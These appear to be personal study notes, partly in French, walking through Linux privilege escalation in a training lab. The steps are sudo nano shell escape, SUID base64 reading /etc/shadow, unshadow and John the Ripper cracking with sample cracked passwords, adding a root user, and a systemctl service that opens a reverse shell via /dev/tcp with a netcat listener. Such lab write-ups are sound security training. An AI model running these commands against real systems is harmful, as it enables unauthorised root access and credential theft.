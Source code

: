 
## __Sudo -l__

Grâce à la commande **`sudo -l`**, on peut récuperer les commandes que l'on peut éxecuter en sudo.

```shell
$ sudo -l
Matching Defaults entries for karen on ip-10-10-127-120:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-10-10-127-120:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```

Ici on peut voir que l'utilisateur peut utiliser nano en sudoer.

On peut voir sur **[gtfobins](https://gtfobins.github.io/gtfobins/nano/)** qu'on peut effectuer une **élévation des privilèges** avec **Nano** en executant **`/bin/sh`** en **SPELL** mode. 

```shell
./nano -s /bin/sh
/bin/sh
^T
```

On peut ensuite voir qu'on passe en root.
# SUID
Much of linux priviledge controls rely on controlling the users and files interactions.
We do this with the permission, you have read write execute.
They are given by the creator of the file.
This change with **SUID** (Set-user Identification) and **SGID** (Set-group Identification).
These **allow files to be executed with the permission level of the file owner** or the group owner, respectively.

These files have an “s” bit set.
![[Pasted image 20241226095837.png]]
To find these file you can do this command:
```shell
find / -type f -perm -04000 -ls 2>/dev/null
```

This link https://gtfobins.github.io/#+suid show you the executable known to be exploitable with the SUID bit set.
## Base64
Here for exemple, we have the base64 executable.  
https://gtfobins.github.io/gtfobins/base64/
![[Pasted image 20241226100542.png]]
### Check
We need to get the content of the `/etc/passwd` and `/etc/shadow` files
Without base64:
```bash
$ cat $LFILE
cat: /etc/shadow: Permission denied
```

With base64:
```bash
$ LFILE=/etc/shadow
$ base64 "$LFILE" | base64 --decode
root:*:18561:0:99999:7:::
daemon:*:18561:0:99999:7:::
bin:*:18561:0:99999:7:::
sys:*:18561:0:99999:7:::
sync:*:18561:0:99999:7:::
games:*:18561:0:99999:7:::
man:*:18561:0:99999:7:::
lp:*:18561:0:99999:7:::
mail:*:18561:0:99999:7:::
...
tss:*:18561:0:99999:7:::
uuidd:*:18561:0:99999:7:::
tcpdump:*:18561:0:99999:7:::
```
### Unshadow
Now we will create a crackable file by **John the ripper** with **`Unshadow`**.
```bash
$ unshadow passwd.txt shadow.txt > password.txt
$ cat password.txt

root:*:0:0:root:/root:/bin/bash
daemon:*:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:*:2:2:bin:/bin:/usr/sbin/nologin
...
lxd:!:998:100::/var/snap/lxd/common/lxd:/bin/false
karen:$6$VjcrKz/6S8rhV4I7$yboTb0MExqpMXW0hjEJgqLWs/jGPJA7N/fEoPMuYLY1w16FwL7ECCbQWJqYLGpy.Zscna9GILCSaNLJdBP1p8/:1003:1003::/home/karen:/bin/sh
```

With the correct wordlist and a little luck, John the Ripper can return one or several passwords in cleartext.
#### John the ripper
First, let's get the hash:
```bash
$ grep -v '*\|!' password.txt > hash.txt
$ cat hash.txt

root:x:0:0:root:/root:/bin/bash
gerryconway:$6$vgzgxM3ybTlB.wkV$48YDY7qQnp4purOJ19mxfMOwKt.H2LaWKPu0zKlWKaUMG1N7weVzqobp65RxlMIZ/NirxeZdOJMEOp3ofE.RT/:1001:1001::/home/gerryconway:/bin/sh
user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:1002:1002::/home/user2:/bin/sh
karen:$6$VjcrKz/6S8rhV4I7$yboTb0MExqpMXW0hjEJgqLWs/jGPJA7N/fEoPMuYLY1w16FwL7ECCbQWJqYLGpy.Zscna9GILCSaNLJdBP1p8/:1003:1003::/home/karen:/bin/sh
```
##### Crack the password
Next you can start the cracking:
```bash
$ john hash.txt --wordlist=/usr/share/wordlists/10-million-password-list-top-1000000.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
test123          (gerryconway)
Password1        (karen)
Password1        (user2)
3g 0:00:00:01 DONE (2024-12-26 14:46) 2.013g/s 2748p/s 6872c/s 6872C/s 262626..12345678q
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Now you can see that we get a password for **gerryconway**, it's **test123**.
##### Connect to the user
```bash
$ su gerryconway
Password:
$ whoami
gerryconway
```
### Add root user
We will need the hash value of the password we want the new user to have
![[Pasted image 20241226143043.png]]
And add it to the /etc/passwd
![[Pasted image 20241226143105.png]]Then connect to this user:
![[Pasted image 20241226143130.png]]
## Systemctl
https://gtfobins.github.io/gtfobins/systemctl/
If you don't have the permission to run sudo.
### Create the service
```bash
$ nano root.service
```
And put this code in:
```bash
[unit]  
Description=root  
  
[Service]  
Type=simple  
User=root  
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<you ip>/<you port> 0>&1'  
  
[Install]  
WantedBy=multi-user.target
```
### Setup listener
We can setup the listener with netcat
```bash
$ nc -lvnp <PORT>
Listening on 0.0.0.0 8080
```
### Run the service
First we have to enable the service
```bash
$ systemctl enable /tmp/root.service
```
Then start it
```bash
$ systemctl start root
```
